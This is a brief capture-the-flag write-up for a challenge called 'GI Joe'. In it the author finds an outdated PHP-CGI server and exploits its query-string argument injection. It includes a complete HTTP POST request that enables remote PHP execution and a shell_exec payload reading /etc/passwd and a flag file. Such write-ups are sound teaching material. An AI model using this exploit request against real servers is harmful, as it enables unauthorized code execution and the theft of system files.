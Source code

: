 ## GI Joe write up 

There is a /cgi-bin/ and the apache and php is old so I decide to look for vulns
I run nikto and it shows is vulnerable to /?-s this shows the source code of index.php
In the source code we can read that the flag is at /flag.txt
Searching for the vulnerablility I found this post https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/php-cgi-exploitation-by-example/

In the post they explain how to leverage the -d to execute php code with a post request:

```
POST /?-dallow_url_include%3d1+-dauto_prepend_file%3dphp://input HTTP/1.1
Host: jh2i.com:50008
Content-Type: application/x-www-form-urlencoded
Content-Length: 66


<?php $output = shell_exec('cat /etc/passwd');echo "$output"; die;
```

![2a50cd6d0759f4f8e3ec427f32a042fc.png](_resources/e3ae3cb72dc94dfea606001bb77db09a.png)

So In order to get the flag we need to execute ``<?php $output = shell_exec('cat /flag.txt');echo "$output"; die;``
